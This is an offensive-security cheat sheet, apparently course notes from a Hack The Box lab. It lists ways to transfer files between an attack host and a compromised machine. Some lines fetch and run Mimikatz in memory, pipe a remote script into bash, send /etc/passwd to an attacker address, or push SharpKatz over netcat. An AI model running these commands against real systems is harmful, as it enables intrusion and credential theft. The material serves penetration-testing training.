 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

# Transfering Files with Code

**Python 2 - Download**

```
zapstiko@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python 3 - Download**

```
zapstiko@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```

**PHP Download with File_get_contents()**
```
zapstiko@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

**PHP Download with Fopen()**
```
zapstiko@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP Download a File and Pipe it to Bash**
```
zapstiko@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

```
**Ruby - Download a File**
```
zapstiko@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl - Download a File**
```
zapstiko@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```


**JavaScript**
```

C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**VBScript**
```
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

**Upload Operations using Python3**

```
zapstiko@htb[/htb]$ python3 -m uploadserver 

```


**Uploading a File Using a Python One-liner**
```
zapstiko@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


# Miscellaneous File Transfer Methods

**File Transfer with Netcat and Ncat**
```
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe ( NetCat - Compromised Machine - Listening on Port 8000 )

```
**Netcat - Attack Host - Sending File to Compromised machine**
```
zapstiko@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
zapstiko@htb[/htb]$ # Example using Ncat
zapstiko@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
**Attack Host - Sending File as Input to Netcat**
```
zapstiko@htb[/htb]$ # Example using Original Netcat
zapstiko@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
**Compromised Machine Connect to Netcat to Receive the File**
```
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
**Attack Host - Sending File as Input to Ncat**
```
zapstiko@htb[/htb]$ # Example using Ncat
zapstiko@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
**Compromised Machine Connect to Ncat to Receive the File**
```
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
**NetCat - Sending File as Input to Netcat**
```
zapstiko@htb[/htb]$ # Example using Ncat
zapstiko@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## PowerShell Session File Transfer


**01. From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**
```
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

**02. From DC01 - Confirm WinRM port TCP 5985 is Open on**

```
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
**03. Create a PowerShell Remoting Session to DATABASE01**
```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
**04.Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

**Mounting a Linux Folder Using rdesktop**
```
zapstiko@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
**Mounting a Linux Folder Using xfreerdp**
```
zapstiko@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
